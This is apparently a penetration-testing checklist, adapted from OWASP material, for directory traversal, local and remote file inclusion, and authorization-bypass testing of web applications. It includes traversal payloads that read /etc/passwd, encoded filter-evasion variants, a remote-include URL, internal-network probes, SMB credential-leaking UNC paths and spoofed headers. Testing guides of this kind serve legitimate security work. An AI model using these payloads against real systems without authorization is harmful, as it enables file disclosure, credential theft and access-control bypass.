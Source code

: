 # Authorization Testing
---
## Navigation
- **[[#Directory Traversal File Include]]**
- **[[#Bypassing Authorization Schema]]**

---
# Directory Traversal File Include (LFI)
### Input Vectors Enumeration
checks to be performed:
-   Are there request parameters which could be used for file-related operations?
-   Are there unusual file extensions?
-   Are there interesting variable names?
    -   `http://example.com/getUserProfile.jsp?item=ikki.html`
    -   `http://example.com/index.php?file=content`
    -   `http://example.com/main.cgi?home=index.html`
-   Is it possible to identify cookies used by the web application for the dynamic generation of pages or templates?
    -   `Cookie: ID=d9ccd3f4f9f18cc1:TM=2166255468:LM=1162655568:S=3cFpqbJgMSSPKVMV:TEMPLATE=flower`
    -   `Cookie: USER=1826cc8f:PSTYLE=GreenDotRed`
### Testing Techniques
```
http://example.com/getUserProfile.jsp?item=../../../../etc/passwd
```

For the cookies example:

```
Cookie: USER=1826cc8f:PSTYLE=../../../../etc/passwd
```

It’s also possible to include files and scripts located on external website:

```
http://example.com/index.php?file=http://www.owasp.org/malicioustxt
```

If protocols are accepted as arguments, as in the above example, it’s also possible to probe the local filesystem this way:

```
http://example.com/index.php?file=file:///etc/passwd
```

If protocols are accepted as arguments, as in the above examples, it’s also possible to probe the local services and nearby services:

```
http://example.com/index.php?file=http://localhost:8080
http://example.com/index.php?file=http://192.168.0.2:9080
```

The following example will demonstrate how it is possible to show the source code of a CGI component, without using any path traversal characters if it's present in the same directory.

```
http://example.com/main.cgi?home=main.cgi
```
> **Tip:** It’s a common mistake by developers to not expect every form of encoding and therefore only do validation for basic encoded content. If at first the test string isn’t successful, try another encoding scheme.

Each operating system uses different characters as path separator:

-   Unix-like OS:
    -   root directory: `/`
    -   directory separator: `/`
-   Windows OS:
    -   root directory: `<drive letter>:`
    -   directory separator: `\` or `/`
-   Classic macOS:
    -   root directory: `<drive letter>:`
    -   directory separator: `:`

We should take in to account the following character encoding mechanisms:

-   URL encoding and double URL encoding
    -   `%2e%2e%2f` represents `../`
    -   `%2e%2e/` represents `../`
    -   `..%2f` represents `../`
    -   `%2e%2e%5c` represents `..\`
    -   `%2e%2e\` represents `..\`
    -   `..%5c` represents `..\`
    -   `%252e%252e%255c` represents `..\`
    -   `..%255c` represents `..\` and so on.
-   Unicode/UTF-8 Encoding (it only works in systems that are able to accept overlong UTF-8 sequences)
    -   `..%c0%af` represents `../`
    -   `..%c1%9c` represents `..\`
 
 There are other OS and application framework specific considerations as well. For instance, Windows is flexible in its parsing of file paths.

-   Windows shell: Appending any of the following to paths used in a shell command results in no difference in function:
    -   Angle brackets `<` and `>` at the end of the path
    -   Double quotes (closed properly) at the end of the path
    -   Extraneous current directory markers such as `./` or `.\\`
    -   Extraneous parent directory markers with arbitrary items that may or may not exist:
        -   `file.txt`
        -   `file.txt...`
        -   `file.txt<spaces>`
        -   `file.txt""""`
        -   `file.txt<<<>>><`
        -   `./././file.txt`
        -   `nonexistant/../file.txt`

**Windows API**: The following items are discarded when used in any shell command or API call where a string is taken as a filename:
    -   `periods`
    -   `spaces`
-   **Windows UNC Filepaths**: Used to reference files on SMB shares. Sometimes, an application can be made to refer to files on a remote UNC filepath. If so, the Windows SMB server may send stored credentials to the attacker, which can be captured and cracked. These may also be used with a self-referential IP address or domain name to evade filters, or used to access files on SMB shares inaccessible to the attacker, but accessible from the web server.
    -   `\\server_or_ip\path\to\file.abc`
    -   `\\?\server_or_ip\path\to\file.abc`
-   **Windows NT Device Namespace**: Used to refer to the Windows device namespace. Certain references will allow access to file systems using a different path.
    -   May be equivalent to a drive letter such as `c:\`, or even a drive volume without an assigned letter: `\\.\GLOBALROOT\Device\HarddiskVolume1\`
    -   Refers to the first disc drive on the machine: `\\.\CdRom0\`

# Bypassing Authorization Schema
### Horizontal Bypassing Authorization Schema
-   Is it possible to access resources that should be accessible to a user that holds a different identity with the same role or privilege?
-   Is it possible to operate functions on resources that should be accessible to a user that holds a different identity?

**For each role:**
1.  Register or generate two users with identical privileges.
2.  Establish and keep two different sessions active (one for each user).
3.  For every request, change the relevant parameters and the session identifier from token one to token two and diagnose the responses for each token.
4.  An application will be considered vulnerable if the responses are the same, contain same private data or indicate successful operation on other users’ resource or data.

### Vertical Bypassing Authorization Schema

**For each role:**

1.  Register a user.
2.  Establish and maintain two different sessions based on the two different roles.
3.  For every request, change the session identifier from the original to another role’s session identifier and evaluate the responses for each.
4.  An application will be considered vulnerable if the weaker privileged session contains the same data, or indicate successful operations on higher privileged functions.

### Testing for Special Request Header Handling
Some applications support non-standard headers such as `X-Original-URL` or `X-Rewrite-URL` in order to allow overriding the target URL in requests with the one specified in the header value.
### Other Headers to Consider
-   Headers:
    -   `X-Forwarded-For`
    -   `X-Forward-For`
    -   `X-Remote-IP`
    -   `X-Originating-IP`
    -   `X-Remote-Addr`
    -   `X-Client-IP`
-   Values
    -   `127.0.0.1` (or anything in the `127.0.0.0/8` or `::1/128` address spaces)
    -   `localhost`
    -   Any [RFC1918](https://tools.ietf.org/html/rfc1918) address:
        -   `10.0.0.0/8`
        -   `172.16.0.0/12`
        -   `192.168.0.0/16`
    -   Link local addresses: `169.254.0.0/16`

>Note: Including a port element along with the address or hostname may also help bypass edge protections such as web application firewalls, etc. For example: `127.0.0.4:80`, `127.0.0.4:443`, `127.0.0.4:43982`

